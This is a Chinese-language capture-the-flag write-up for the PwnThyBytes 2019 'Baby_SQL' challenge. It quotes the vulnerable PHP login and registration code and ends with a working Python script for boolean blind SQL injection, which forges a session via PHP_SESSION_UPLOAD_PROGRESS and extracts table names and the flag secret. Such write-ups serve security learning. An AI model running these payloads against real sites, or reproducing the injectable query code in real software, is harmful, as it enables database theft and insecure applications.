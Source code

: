 # \[PwnThyBytes 2019]Baby\_SQL

## \[PwnThyBytes 2019]Baby\_SQL

## 考点

* PHP\_SESSION\_UPLOAD\_PROGRESS伪造session
* PHP\_SESSION\_UPLOAD\_PROGRESS结合session配置进行盲注
* SQL盲注

## wp

F12发现提示`/source.zip`，访问得到源码。

在index.php中对所有的输入进行判断，必须是字符串然后做addslashes处理。然后是进行路由处理，主要有3个文件，home.php、login.php和register.php

```php
foreach ($_SESSION as $key => $value): $_SESSION[$key] = filter($value); endforeach;
foreach ($_GET as $key => $value): $_GET[$key] = filter($value); endforeach;
foreach ($_POST as $key => $value): $_POST[$key] = filter($value); endforeach;
foreach ($_REQUEST as $key => $value): $_REQUEST[$key] = filter($value); endforeach;

function filter($value)
{
    !is_string($value) AND die("Hacking attempt!");

    return addslashes($value);
}
```

在注册处，username的条件

1. 不能包含`admin`中的任一字符
2. 长度6-10
3. 必须由字母和数字组成

然后插入数据库

```php
(preg_match('/(a|d|m|i|n)/', strtolower($_POST['username'])) OR strlen($_POST['username']) < 6 OR strlen($_POST['username']) > 10 OR !ctype_alnum($_POST['username'])) AND $con->close() AND die("Not allowed!");

$sql = 'INSERT INTO `ptbctf`.`ptbctf` (`username`, `password`) VALUES ("' . $_POST['username'] . '","' . md5($_POST['password']) . '")';
```

登录处使用select语句验证账号密码，然后把用户名写入session

```php
$sql = 'SELECT `username`,`password` FROM `ptbctf`.`ptbctf` where `username`="' . $_GET['username'] . '" and password="' . md5($_GET['password']) . '";';
function auth($user){
    $_SESSION['username'] = $user;
    return True;
}
```

home是只返回一个静态页面。

这里在用了session，只在index.php进行初始化，后面每个页面都是判断session是否存在。

那可以通过PHP\_SESSION\_UPLOAD\_PROGRESS上传一个session，在templates/login.php页面进行盲注即可

```python
#coding=utf-8 
import io
import requests
import time


sessid = 'peri0d'
url = 'http://05c435b5-beb2-4fc3-92fe-249878699d61.node4.buuoj.cn:81/templates/login.php'
s = requests.session()
while True:
    f = io.BytesIO(b'a' * 1024 * 50)
    flag = ''
    for i in range(1, 50):
        print(flag)
        
        low = 0
        high = 255
        mid = (low+high)//2
        while low < high:
            payload = {
            # flag_tbl,ptbctf
            # 'username': f'1" or (ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{i},1))>{mid})#',
            # secret
            # 'username': f'1" or (ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name="flag_tbl")),{i},1))>{mid})#',
            'username': f'1" or (ascii(substr((select(group_concat(secret))from(flag_tbl)),{i},1))>{mid})#',
            'password': '111'
            
            }
            r = s.post(url=url, data={'PHP_SESSION_UPLOAD_PROGRESS': '123456'}, files={'file': ('peri0d.txt',f)}, cookies={'PHPSESSID': sessid}, params=payload)

            
            time.sleep(0.5)
            
            # true
            if '<meta' in r.text:
                low = mid + 1
            # false
            if 'Try again' in  r.text:
                high = mid
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
```
